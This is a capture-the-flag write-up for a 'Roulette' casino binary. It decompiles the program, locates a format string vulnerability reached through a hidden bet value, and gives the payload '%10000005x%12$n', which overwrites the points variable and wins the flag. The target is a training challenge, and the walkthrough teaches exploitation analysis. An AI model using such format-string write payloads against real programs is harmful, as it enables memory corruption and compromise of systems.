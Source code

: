 
# Roulette

![](images/roulette.png)

First Lets check the file type:
```console
file roulette.bin 
roulette.bin: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ed7615410ce361d0fb60d7718bc23c478a0b0e57, for GNU/Linux 3.2.0, not stripped
```

It's executable file let run it:
```console
matan@matan:~/Documents/hacking/matrix2021$ nc challenges.ctfd.io 30426
Welcome to Casino Royal
This is a roulette game
You have 1 point to start with.
How many games would you like to play(Up to 2)?
1
Choose your bet (1-36)
2
num is : 4
The house always wins... Bye!

```

Looks like its betting game ,let open the file in ghidra an take a look on main function:
```c
undefined8 main(void)

{
  int iVar1;
  ssize_t sVar2;
  uint local_4c;
  ulong local_48;
  int local_3c;
  long local_38;
  uint local_30;
  undefined4 local_2c;
  uint *local_28;
  undefined8 local_20;
  char *local_18;
  int local_c;
  
  local_18 = (char *)0x0;
  local_20 = 0;
  local_28 = (uint *)0x0;
  local_2c = 0;
  local_48 = 2;
  local_4c = 0;
  local_30 = 0;
  local_38 = 0;
  local_28 = (uint *)malloc(4);
  *local_28 = 1;
  local_38 = time((time_t *)0x0);
  srand((uint)local_38);
  iVar1 = genrate_random_number(1000,10000);
  local_38 = local_38 + iVar1;
  srand((uint)local_38);
  fflush(stdout);
  puts("Welcome to Casino Royal");
  fflush(stdout);
  printf("This is a roulette game\nYou have %d point to start with.\n",(ulong)*local_28);
  fflush(stdout);
  puts("How many games would you like to play(Up to 2)?");
  fflush(stdout);
  iVar1 = __isoc99_scanf(&DAT_00102090,&local_48);
  if (iVar1 == 1) {
    fflush(stdin);
    if ((local_48 < 3) || (local_48 == 0xffffffffffffffff)) {
      local_c = 0;
      while ((ulong)(long)local_c < local_48) {
        puts("Choose your bet (1-36)");
        fflush(stdout);
        iVar1 = __isoc99_scanf(&DAT_001020f1,&local_4c);
        if (iVar1 != 1) {
          printf("Something went wrong!");
          fflush(stdout);
        }
        fflush(stdin);
        if (((int)local_4c < 1) || (0x24 < (int)local_4c)) {
          if (local_4c == 0x31519) {
            puts(
                "Please enter your command (it will be printed to make sure you entered the rightone):"
                );
            fflush(stdout);
            local_18 = (char *)malloc(0x40);
            sVar2 = read(0,local_18,0x40);
            local_3c = (int)sVar2;
            fflush(stdout);
            if (local_3c == -1) {
              puts("something went wrong with your command");
              fflush(stdout);
            }
            printf(local_18);
            fflush(stdout);
            free(local_18);
            goto LAB_00101588;
          }
          puts("Bet is out of range... choose another");
          fflush(stdout);
        }
        else {
          local_30 = genrate_random_number(1,0x24);
          printf("num is : %d\n",(ulong)local_30);
          fflush(stdout);
          if (local_30 != local_4c) {
            puts("The house always wins... Bye!");
            fflush(stdout);
            free(local_28);
            return 0;
          }
          *local_28 = *local_28 * 0x24;
          printf("You won this round\nPoints: %d\n",(ulong)*local_28);
          fflush(stdout);
LAB_00101588:
          if (10000000 < (int)*local_28) {
            free(local_28);
            puts("You Won!\n The Flag is: MCL{NOT_A_REAL_FLAG}");
            fflush(stdout);
            return 0;
          }
        }
        local_c = local_c + 1;
      }
    }
    else {
      puts("You\'re trying to trick me! I\'m leaving...");
      fflush(stdout);
    }
  }
  else {
    puts("Something went wrong!");
    fflush(stdout);
  }
  return 0;
}
```


So we can see that `[local_28]` should be bigger than 10000000
```c
if (10000000 < (int)*local_28) {
            free(local_28);
            puts("You Won!\n The Flag is: MCL{NOT_A_REAL_FLAG}");
            fflush(stdout);
            return 0;
          }
```

We can see in this block somthing suspicous `printf(local_18);`
```c
local_18 = (char *)malloc(0x40); //malloc
            sVar2 = read(0,local_18,0x40); //read from sdt_input
            local_3c = (int)sVar2;
            fflush(stdout);
            if (local_3c == -1) {
              puts("something went wrong with your command");
              fflush(stdout);
            }
            printf(local_18);//print var content
```

Look like we have `format vulnerability`.
In order to get to get into the vulnerabilty block code we need to do number of steps:
1.Need to pass game numbers check -    input range(-1) - 2 
```c
iVar1 = __isoc99_scanf(&DAT_00102090,&local_48);
  if (iVar1 == 1) {
    fflush(stdin);
    if ((local_48 < 3) || (local_48 == 0xffffffffffffffff)) {
      local_c = 0;
      while ((ulong)(long)local_c < local_48) {
```
2. Enter bet between 1-36 - need to enter somthing specific
```c
if (((int)local_4c < 1) || (0x24 < (int)local_4c)) {
          if (local_4c == 0x31519) {
```
0x31519 = 202009

Now let's try it:
```console
matan@matan:~/Documents/hacking/matrix2021$ ./roulette.bin 
Welcome to Casino Royal
This is a roulette game
You have 1 point to start with.
How many games would you like to play(Up to 2)?
1
Choose your bet (1-36)
202009             
Please enter your command (it will be printed to make sure you entered the right one):

```

so we should check where is the `local_28` can be found on the stack in order to build buffer to override the value of [local_28].
 let put break on 0x555555555564 and see what is the value of local_28 and how the stack look like:
```
 0x555555555564 <main+883>    call   free@plt <free@plt>
```

local_28
```
x $rbp-0x28
0x7fffffffdf10:	0x00005555555592a0
```
Stack
```
00:0000│ rsp  0x7fffffffdee0 ◂— 0xf0b5ff
01:0008│      0x7fffffffdee8 ◂— 0x31519000000c2
02:0010│      0x7fffffffdef0 ◂— 0x1
03:0018│      0x7fffffffdef8 ◂— 0x1055555635
04:0020│      0x7fffffffdf00 ◂— 0x604fe01e
05:0028│      0x7fffffffdf08 ◂— 0x0
06:0030│      0x7fffffffdf10 —▸ 0x5555555592a0 ◂— 0x989685
07:0038│      0x7fffffffdf18 ◂— 0x0
```

We can see that local 28 is in sixth place - in the format attack it will be in location 12. so our buffer should look like:
`%10000005x%12$n`

Now let run it:
```console
matan@matan:~/Documents/hacking/matrix2021$ nc challenges.ctfd.io 30426
Welcome to Casino Royal
This is a roulette game
You have 1 point to start with.
How many games would you like to play(Up to 2)?
1
Choose your bet (1-36)
202009
Please enter your command (it will be printed to make sure you entered the right one):
%10000005x%12$n
. . .
You Won!
 The Flag is: MCL{I_HOPE_###################}
```
